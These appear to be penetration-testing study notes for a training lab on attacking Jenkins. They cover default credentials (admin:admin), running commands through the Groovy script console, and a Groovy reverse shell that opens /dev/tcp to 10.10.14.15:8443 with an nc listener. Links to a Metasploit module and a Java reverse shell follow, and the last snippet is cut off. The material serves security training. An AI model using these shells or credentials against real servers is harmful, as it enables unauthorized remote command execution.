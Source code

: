 # Jenkins Attacks

* Jenkins runs on Tomcat port 8080 by default.
  * It also utilizes port 5000 to attach slave servers.
    * This port is used to communicate between masters and slaves
* Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all
  * Administrators can also allow or disallow users from creating accounts.
  * default credentials
    * `admin:admin`

### Script Console

* The script console can be reached at the URL `http://jenkins.inlanefreight.local:8000/script`
  * This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache\_Groovy) scripts, which are an object-oriented Java-compatible language
  * For example, we can use the following snippet to run the `id` command.

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

```
http://jenkins.inlanefreight.local:8000/script
```

* There are various ways that access to the script console can be leveraged to gain a reverse shell.
  * For example, using the command below, or [this](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins\_script\_console/) Metasploit module.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```shell-session
nc -lvnp 8443
```

* Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
* We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}")
```

* We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(h
```
